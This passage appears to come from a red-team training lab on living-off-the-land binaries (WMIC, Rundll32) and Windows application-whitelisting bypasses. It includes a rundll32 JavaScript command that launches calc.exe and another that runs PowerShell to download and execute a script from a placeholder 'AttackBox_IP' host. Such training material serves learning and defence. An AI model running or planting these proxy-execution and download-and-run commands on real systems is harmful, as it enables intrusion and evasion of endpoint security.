 The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.

## Rundll32

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5c549500924ec576f953d9fc/room-content/8c486194a27568f2db0fd410cf82dbc6.png)

The rundll32.exe binary is located at:

- C:\Windows\System32\rundll32.exe for the Windows 64-bit version.
- C:\Windows\SysWOW64\rundll32.exe for the Windows 32-bit version.

Now let's try to execute a calc.exe binary as proof of concept using the rundll32.exe binary:

  
```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

In the previous command, we used the rundll32.exe binary that embeds a JavaScript component, eval(), to execute the calc.exe binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.


```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

As a result of the previous execution, a copy of the script.ps1 downloaded into memory on the target machine.


# Application Whitelisting Bypasses

---

## Bypassing Application Whitelisting  

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.  
